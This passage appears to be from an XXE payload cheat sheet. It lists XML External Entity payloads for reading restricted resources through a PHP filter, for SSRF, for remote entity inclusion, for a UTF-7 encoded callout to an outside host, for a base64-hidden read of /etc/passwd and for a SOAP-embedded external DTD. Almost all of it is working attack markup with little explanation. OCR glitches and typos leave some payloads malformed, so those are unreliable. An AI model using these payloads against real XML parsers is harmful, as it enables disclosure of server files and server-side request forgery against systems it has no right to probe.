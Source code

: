     ```

    **XXE: Access Control Bypass (Loading Restricted Resources - PHP example)**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ENTITY ac SYSTEM "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php">]>
    <foo><result>&ac;</result></foo>

    ```

    **XXE:SSRF ( Server Side Request Forgery ) Example**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "<https://www.example.com/text.txt>">]><foo>&xxe;</foo>

    ```

    **XXE: (Remote Attack - Through External Xml Inclusion) Exmaple**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE lolz [
    <!ENTITY test SYSTEM "<https://example.com/entity1.xml>">]>
    <lolz><lol>3..2..1...&test<lol></lolz>

    ```

    **XXE: UTF-7 Exmaple**

    ```
    <?xml version="1.0" encoding="UTF-7"?>
    +ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
    +ADwAIQ-ENTITY xxe SYSTEM +ACI-http://hack-r.be:1337+ACI +AD4AXQA+
    +ADw-foo+AD4AJg-xxe+ADsAPA-/foo+AD4

    ```

    **XXE: Base64 Encoded**

    ```xml
    <!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>

    ```

    **XXE: XXE inside SOAP Example**

    ```xml
    <soap:Body>
      <foo>
        <![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "<http://x.x.x.x:22/>"> %dtd;]><xxx/>]]>
      </foo>
    </soap:Body>
